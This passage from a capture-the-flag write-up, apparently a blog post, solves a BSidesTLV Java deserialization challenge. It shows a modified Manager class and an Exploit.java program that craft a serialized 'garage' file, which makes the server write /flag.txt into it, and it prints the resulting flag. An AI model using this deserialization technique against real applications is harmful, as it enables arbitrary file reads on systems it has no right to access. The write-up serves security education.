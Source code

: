 That's our vulnerability. If we change `close.txt` to `/flag.txt`, we should be able to trick the server to write the contents of `/flag.txt` to `garage`, through deserialization of the Manager object.

To that end, I modified two lines of `Manager.class` like so. Save it as `Manager.java`.

![435553fb.png](/assets/images/posts/bsidestlv-web/7fc2d82a.png)

I wrote the following exploit to generate the malicious `garage` file.

<div class="filename"><span>Exploit.java</span></div>

```java
import java.io.*;

public class Exploit {

  public static void main(String[] args) {
    try {

      Employee emp = new Manager();
      Garage g = new Garage();
      g.setManager(emp);
      g.addCar(new Car("Honda" , "H4CK3R", "2001"));

      FileOutputStream fos = new FileOutputStream("garage");
      fos.write(g.toByteArray());
      fos.close();

    } catch (Exception e) {
      System.err.println(e);
    }
  }
}
```

Extract all the `Class` files from `garage.jar` except for `Manager.class` to where `Exploit.java` and `Manager.java` are. Then, compile `Exploit.java` like so.

![c919b550.png](/assets/images/posts/bsidestlv-web/c919b550.png)

Now, let's give it a shot.

![758f2513.png](/assets/images/posts/bsidestlv-web/758f2513.png)

We don't have to do anything special. Saving the Garage will trigger deserialization of the Manager object, and save the contents of `/flag.txt` to `garage`.

Let's check out `garage` with SerializationDumper.

![5e4ad710.png](/assets/images/posts/bsidestlv-web/5e4ad710.png)

The flag is `BSidesTLV{I_Am_Inspector_Gadget}`.

### Can you bypass the SOP?
